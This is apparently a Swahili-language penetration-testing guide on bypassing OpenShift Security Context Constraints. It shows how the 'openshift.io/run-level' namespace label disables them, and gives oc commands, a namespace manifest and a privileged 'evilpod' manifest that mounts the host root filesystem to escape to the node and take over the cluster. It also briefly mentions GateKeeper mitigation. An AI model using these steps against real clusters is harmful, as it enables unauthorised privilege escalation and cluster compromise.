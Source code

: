 # Openshift - Kupuuza SCC

**Mwandishi halisi wa ukurasa huu ni** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Nafasi za Haki Maalum

Kwa chaguo-msingi, SCC haitumiki kwenye miradi ifuatayo:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ikiwa unaweka podi ndani ya mojawapo ya nafasi hizo, hakuna SCC itakayotekelezwa, kuruhusu uwekaji wa podi zenye haki maalum au kufunga mfumo wa faili wa mwenyeji.

## Lebo ya Nafasi

Kuna njia ya kulemaza maombi ya SCC kwenye podi yako kulingana na nyaraka za RedHat. Utahitaji kuwa na angalau moja ya ruhusa zifuatazo:

- Unda Nafasi na Unda Podi kwenye Nafasi hii
- Hariri Nafasi na Unda Podi kwenye Nafasi hii
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
The specific label `openshift.io/run-level` enables users to circumvent SCCs for applications. As per RedHat documentation, when this label is utilized, no SCCs are enforced on all pods within that namespace, effectively removing any restrictions.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ongeza Lebo

Kuongeza lebo katika eneo lako:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Kujenga eneo la jina na lebo kupitia faili ya YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sasa, vikasha vipya vyote vilivyoundwa kwenye eneo la jina haipaswi kuwa na SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Kukosekana kwa SCC, hakuna vizuizi kwenye ufafanuzi wa kasha lako. Hii inamaanisha kwamba kasha la nia mbaya linaweza kuundwa kwa urahisi ili kutoroka kwenye mfumo wa mwenyeji.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sasa, imekuwa rahisi kuongeza mamlaka ya kupata mfumo wa mwenyeji na baadaye kuchukua udhibiti wa kikundi kizima, kupata mamlaka ya 'cluster-admin'. Tafuta sehemu ya **Node-Post Exploitation** kwenye ukurasa ufuatao:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Lebo za desturi

Zaidi ya hayo, kulingana na usanidi wa lengo, baadhi ya lebo / maandishi ya desturi yanaweza kutumika kwa njia ile ile kama hali ya shambulio la awali. Hata kama sio kwa hiyo, lebo inaweza kutumika kutoa ruhusa, kizuia au la si rasilimali maalum.

Jaribu kutafuta lebo za desturi ikiwa unaweza kusoma baadhi ya rasilimali. Hapa kuna orodha ya rasilimali za kuvutia:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Orodhesha majina ya nafasi zenye mamlaka
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Shambulizi la juu

Katika OpenShift, kama ilivyodhihirishwa awali, kuwa na idhini ya kuweka podi katika eneo la jina lenye lebo ya `openshift.io/run-level` inaweza kusababisha kuchukuliwa kwa urahisi wa kikundi. Kutoka mtazamo wa mipangilio ya kikundi, hii **haiwezi kuzimwa**, kwani ni sehemu ya kubuni ya OpenShift.

Hata hivyo, hatua za kupunguza madhara kama **Open Policy Agent GateKeeper** inaweza kuzuia watumiaji kuweka lebo hii.

Ili kudukua sheria za GateKeeper na kuweka lebo hii kutekeleza kuchukua kikundi, **wadukuzi watahitaji kutambua njia mbadala.**

## Marejeo

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
